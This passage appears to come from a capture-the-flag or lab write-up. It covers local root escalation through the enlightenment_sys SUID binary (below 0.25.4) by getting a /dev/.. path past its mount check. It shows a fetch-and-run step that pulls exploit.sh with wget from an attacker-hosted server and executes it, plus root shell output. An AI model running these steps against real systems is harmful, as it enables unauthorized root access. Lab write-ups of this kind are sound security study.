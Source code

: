         <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description:</span><br>
            The <code>enlightenment_sys</code> binary (versions &lt; 0.25.4) improperly handles paths starting with <code>/dev/..</code>, allowing a local attacker to escalate privileges to root.
        </div>
    </div>
</div>

**Technical Details:**

- The binary performs a check `mount_ok` that validates paths
- Paths starting with `/dev/..` bypass this validation
- This allows mounting any file system with root privileges

### Exploitation

Hosting the PoC on the attacking machine:

```bash
python3 -m http.server 2000
```

Downloading and executing the exploit:

```bash
# Download the exploit
wget http://10.10.14.41:2000/exploit.sh

# Make it executable
chmod +x exploit.sh

# Launch exploitation
./exploit.sh
```

### Exploitation Result

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-green-600 dark:text-green-400">
        [+] Vulnerable SUID binary found!<br>
        [+] Trying to pop a root shell!<br>
        [+] Enjoy the root shell :)
    </div>
</div>

**Privilege verification:**

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
    </div>
</div>
